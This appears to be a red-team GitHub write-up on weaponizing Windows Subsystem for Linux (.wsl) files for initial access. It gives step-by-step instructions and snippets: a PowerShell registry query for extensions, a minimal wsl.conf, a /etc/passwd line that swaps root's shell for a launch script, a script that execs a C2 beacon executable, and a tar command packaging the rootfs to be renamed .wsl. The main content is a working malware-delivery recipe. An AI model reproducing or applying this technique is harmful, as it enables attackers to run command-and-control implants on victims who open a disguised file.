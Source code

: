 # WSL Files

When looking into possible new file formats for Initial Access, one really grabbed my attention. By using the following PowerShell one-liner, you can find file extensions available on the workstation. 
When reviewing the results, you might notice that some extensions do not have a designated program for execution:

```powershell
Get-ChildItem Registry::HKEY_CLASSES_ROOT | Where-Object { $_.Name -match '^.*\\\.' } | ForEach-Object { $_.PSChildName }
```

From the output, the `.wsl` file extension was particularly interesting.

We are already familiar with WSL as the **Windows Subsystem for Linux (WSL)**, which allows developers to run a GNU/Linux environment on Windows. While powerful, WSL is traditionally limited to terminal-based interactions. Users can run Linux on the Windows workstation with some capabilities that are limited to the terminal. Reading the documentation for WSL, I found an interesting paragraph highlighting WSL file extensions.

<img width="890" height="228" alt="image" src="https://github.com/user-attachments/assets/afe8b4ed-fa5b-4dd7-8229-d9ccc711368a" />

## Weaponizing a WSL File

To create a weaponized WSL file, three components are required:

1. **An OS (root filesystem)**
2. **A WSL configuration file**
3. **A payload that connects back to a C2 server**

### File Size Concerns

Initially, I was concerned about the file size. My first demo was around **100MB**, which was excessive since I didn't need full OS capabilities just a way to run a command or payload.

Thanks to a tweet, I discovered **Alpine Linux**, a great choice due to its minimal file size (~8MB).

### The WSL Configuration File

The **WSL configuration file**, which only needs the `[oobe]` tag and a default name to function. This config file must be placed under the `/etc` directory.

Example `wsl.conf`:

```ini
[oobe]
defaultName = CalcWSL
```

### Crafting the Payload

This part was tricky. While the WSL config file supports a `command` tag, it didn’t reliably execute across distributions (Ubuntu, Debian, Alpine). For example:

- **Debian**: I could simply replace the `.bashrc` file with my commands/payload and it worked.
- **Alpine**: This didn’t work on the first run. To make it reliable, I had to modify the `passwd` file.

By editing the `passwd` file, I ensured that every time the WSL instance launched **as root**, it would execute a script instead of opening a shell.

Modified `/etc/passwd` line:

```
root:x:0:0:root:/root:/root/launch.sh  # <- Path to Script
```

### The `launch.sh` Script

```sh
#!/bin/sh
exec /root/beacon_x64.exe
```

This script executes the beacon payload.

## Compiling the WSL Root Filesystem

Once you have:

- The OS (e.g., Alpine Linux)
- The `wsl.conf` configuration file
- The payload and launch script

You can compile everything into a WSL-compatible tarball:

```bash
tar --numeric-owner -cf Alpine.tar -C /tmp/alpine/ .
```

This results in a small `.tar` which we simply rename to the `WSL` extension.

## Demo:
https://github.com/user-attachments/assets/e018627d-a896-4839-b891-28d70acfab49


